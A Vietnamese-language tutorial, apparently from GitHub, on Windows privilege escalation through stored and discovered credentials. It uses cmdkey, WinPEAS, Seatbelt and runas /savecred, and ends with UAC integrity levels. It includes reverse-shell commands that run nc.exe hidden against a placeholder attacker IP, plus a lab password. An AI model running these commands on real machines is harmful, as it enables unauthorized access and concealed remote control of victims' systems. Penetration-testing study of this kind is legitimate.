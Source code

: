 # Thông qua thông tin xác thực được lưu trữ

Liệt kê các thông tin lưu trữ trong máy chủ: cmdkey /list
  
![image](https://github.com/Manh130902/Windows-Privilege-Escalation/assets/93723285/1540d6a2-fc54-466e-8396-291134105a53)

Có thể thấy thông tin đăng nhập của tài khoản QTV cục bộ đã được lưu trữ trong trình quản lý thông tin xác thực và có thể được sử dụng để thự thi các lệnh
Liệt kê các thông tin xác thực được lưu trữ bằng công cụ
 - WinPEAS : .\winPEASx64.exe windowscreds
![image](https://github.com/Manh130902/Windows-Privilege-Escalation/assets/93723285/0dc32e38-a545-4e91-8c75-0e5cc5018941)

winPEAS ko tìm thấy
- Seatbelt: .\Seatbelt.exe CredEnum
![image](https://github.com/Manh130902/Windows-Privilege-Escalation/assets/93723285/08083483-9942-49a8-96b1-48a3d87a5d1c)

Seatbelt đã lấy được thông tin như lệnh cmdkey /list

Thực thi các lệnh bằng thông tin xác thực được lưu trữ

Sau khi xác định rằng có thông tin xác thực được lưu trữ cho tài khoản quản trị viên cục bộ trên máy này, chúng tôi có thể sử dụng những thông tin xác thực đó để thực thi các lệnh bằng runas lệnh.

NOTE: khi chạy runas nó sẽ tạo ra 1 shell khác và chạy lệnh đó nên giả sử chúng ta chạy lệnh whoami thì sẽ ko có kết quả nào được hiển thị trên shell hiện tại việc của chúng ta là phải chuyển hướng đầu ra vào 1 tệp bằng lệnh sau:

```
runas /env /noprofile /savecred /user:{TÊN} "cmd.exe /c whoami > whoami.txt"
```
![image](https://github.com/Manh130902/Windows-Privilege-Escalation/assets/93723285/bb268e4a-8d51-425d-8436-6d50a95cfda9)

Từ đây ta có thể kiểm chứng được ta đang chạy với quyền admin ta ó thể tạo 1 shell với tư cách admin ta đẩy nc.exe sang và tạo reverse shell với tư cách ngưới dùng admin bằng câu lệnh

```
runas /env /noprofile /savecred /user:{TÊN} "c:\temp\nc.exe {ip attacker} 443 -e cmd.exe"
```
![image](https://github.com/Manh130902/Windows-Privilege-Escalation/assets/93723285/f54afaba-fc1c-496a-a0d9-f5ec7b131d6d)

NOTE : Điều này sẽ tạo ra 1 process cmd trên máy nạn nhân và người dùng có thể dễ dàng đóng nó nên ta có thể sử dụng thêm 1 tính năng tàn hình của powershell để thực thi 1 process ẩn.

```
runas /env /noprofile /savecred /user:{TÊN} "powershell.exe -w hidden -c c:\temp\nc.exe {ip attacker} 443 -e cmd.exe"
```

# Nâng cao đặc quyền RunAs thông qua thông tin xác thực được cung cấp
Giả sử rằng khi chúng tôi có được chỗ đứng trên nạn nhân, chúng tôi không tìm thấy bất kỳ thông tin xác thực nào được lưu trữ bằng lệnh cmdkey /list; tuy nhiên, chúng tôi đã tìm được thông tin xác thực của người dùng khác trong một tệp ở đâu đó trên hệ thống tệp.

Có hai tình huống mà tôi có thể nghĩ ra ngay lập tức khi điều này sẽ hữu ích:

- Tìm thông tin xác thực cho một tài khoản KHÔNG có quyền truy cập vào bất kỳ dịch vụ tiêu chuẩn nào (SMB, RDP, WinRM) và do đó, không có cách nào có thể đoán trước để đăng nhập hoặc nhận shell với tư cách là người dùng này.
- Mọi trường hợp liên quan đến tài khoản đã được thêm vào nhóm quản trị viên cục bộ và cổng 3389 (RDP) đều bị đóng.

# Thực thi các lệnh bằng thông tin xác thực được cung cấp - GUI

Từ GUI, chúng ta có thể sử dụng lệnh sau để tạo ra dấu nhắc cmd với tư cách một người dùng khác:
```
runas /env /noprofile /user:juggernaut.local\cmarko cmd
```
Chúng tôi được nhắc nhập mật khẩu và sau khi nhập thành công, dấu nhắc cmd sẽ mở ra với tư cách là người dùng mà chúng tôi đã chỉ định.
![image](https://github.com/Manh130902/Windows-Privilege-Escalation/assets/93723285/baade655-0921-4a03-86ed-41b848231ffa)

Khi ta thử nhập kèm theo mật khẩu:

```
runas /env /noprofile /user:juggernaut.local\cmarko "N0cturn@l21" cmd
```
![image](https://github.com/Manh130902/Windows-Privilege-Escalation/assets/93723285/fce7ee8b-b8be-418b-95b5-c8644c8b572a)

Trang trợ giúp cho chúng tôi biết rằng chúng tôi chỉ có thể nhập mật khẩu của người dùng khi được nhắc.

# Thực thi các lệnh bằng thông tin xác thực được cung cấp – Reverse Shell (Người dùng chuẩn)

Khi máy mục tieu đã tắt RDP(3389) ta bắt lại shell vằ gõ 3 lệnh sau:

```
1. $secpasswd = ConvertTo-SecureString "password" -AsPlainText -Force
2. $mycreds = New-Object System.Management.Automation.PSCredential ("TÊN", $secpasswd)
3. Start-Process -FilePath powershell.exe -argumentlist "-w hidden -c C:\temp\nc.exe {ip attacker} 443 -e cmd.exe" -Credential $mycreds
```

- Biến đầu tiên là mật khẩu (trong dấu ngoặc kép).
- Biến thứ hai là gán mật khẩu cho tên người dùng.
- Dòng thứ ba là lệnh chúng tôi muốn chạy bằng thông tin xác thực được lưu trữ.

Sau khi thực thi ta sẽ nhận được shel với tư cách người dùng
![image](https://github.com/Manh130902/Windows-Privilege-Escalation/assets/93723285/bfc17ae6-b821-449f-8fba-beeb98b83f37)

# Thực thi các lệnh bằng thông tin xác thực được cung cấp – Reverse Shell (Đã thêm người dùng quản trị cục bộ)

Nếu tôi lấy được tài khoản của tài khoản nằm trong nhóm local administrator nhưng mà lại không phải là tài khoản administrator thì khi mà tôi xá thực được lưu trữ cho người dùng này thì tôi chỉ nhận được shell của người dùng chứ không phải shell của admin

Đây là kết quả của cách hoạt động của UAC. Đối với tài khoản Quản trị viên tích hợp, nếu bạn mở cmd.exe, nó sẽ mở với lời nhắc của quản trị viên theo mặc định. Tuy nhiên, nếu bạn có người dùng thuộc nhóm quản trị viên cục bộ nhưng không phải là tài khoản Quản trị viên tích hợp, để nhận được lời nhắc quản trị, bạn cần mở cmd.exe bằng “Chạy với tư cách quản trị viên”. Nếu chúng tôi chỉ mở cmd.exe với người dùng này và không chạy nó với tư cách quản trị viên, chúng tôi sẽ được cung cấp một lớp vỏ có tính toàn vẹn trung bình tiêu chuẩn.
![image](https://github.com/Manh130902/Windows-Privilege-Escalation/assets/93723285/07b81bac-950b-4d57-ade2-9fe8b4d1b258)
![image](https://github.com/Manh130902/Windows-Privilege-Escalation/assets/93723285/ca52ae81-ead9-4c6c-852e-a6669912c097)


Sau khi thực hiện các lệnh trên, chúng ta thấy rằng chúng ta đã có shell dưới dạng vcreed trên trình nghe của mình.
![image](https://github.com/Manh130902/Windows-Privilege-Escalation/assets/93723285/dc8d9929-2709-4ab9-8bcc-c02a0dfb9e9a)

Tuy nhiên, khi chúng tôi kiểm tra các đặc quyền của mình bằng whoami /priv, chúng tôi sẽ thấy rằng chúng tôi đang ở trong lớp vỏ có tính toàn vẹn trung bình và KHÔNG có đặc quyền của quản trị viên .
![image](https://github.com/Manh130902/Windows-Privilege-Escalation/assets/93723285/0bacb352-e665-44a8-86e3-0ad67a94f369)
